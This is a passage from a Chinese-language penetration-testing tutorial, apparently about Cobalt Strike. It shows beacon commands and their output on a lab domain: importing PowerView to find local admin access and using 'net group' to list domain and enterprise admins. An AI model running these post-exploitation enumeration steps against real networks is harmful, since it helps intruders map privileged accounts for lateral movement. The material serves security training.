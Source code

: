 ```powershell
#一般账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
```

在上一节讲述的 `PowerView` 有很多很好的自动操作来帮助解决这些问题。可以在加载 `PowerView` 后，运行下面的命令，通过 `PowerView` 可以快速找到管理员账号。

```powershell
powershell Find-LocalAdminAccess
```

```powershell
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

#### 域管理员账号

第二个关键步骤，发现域管理员账号。

**列出域管理员**

对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。

```powershell
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
```

```powershell
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

```powershell
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

